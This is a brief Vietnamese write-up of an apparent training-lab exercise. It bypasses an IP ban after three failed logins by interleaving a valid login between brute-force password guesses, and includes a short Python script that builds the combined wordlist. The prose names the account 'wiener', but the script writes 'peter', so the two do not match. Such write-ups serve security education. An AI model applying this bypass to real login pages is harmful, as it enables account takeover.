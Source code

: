 Yêu cầu: Brute Force. Tuy nhiên khi quá 3 lần sai pass, ip sẽ bị ban. Để bypass thì sẽ nhập account đúng trước khi bị ban. 
![image](https://user-images.githubusercontent.com/62832067/156862195-5b2e9f03-a5b7-432c-b379-98dc0ff0b93f.png)
<br> Ta tạo 2 wordlist tương ứng: Cứ dòng lẻ thì là account "wiener" đúng còn dòng chẵn là account brute 
```
password = 'pass.txt' 
add = open("pass2.txt","w")
with open(password) as pwd:
    line = pwd.readline()
    while line:
        add.write("peter\n")
        add.write(line.strip())
        add.write("\n")
        line=pwd.readline()
add.close()
```
![image](https://user-images.githubusercontent.com/62832067/156863679-df8fcf98-2959-482a-a62a-ca27ecb3b61b.png)
![image](https://user-images.githubusercontent.com/62832067/156877674-c6cd444b-4a81-4276-971c-7654a2e0895b.png)
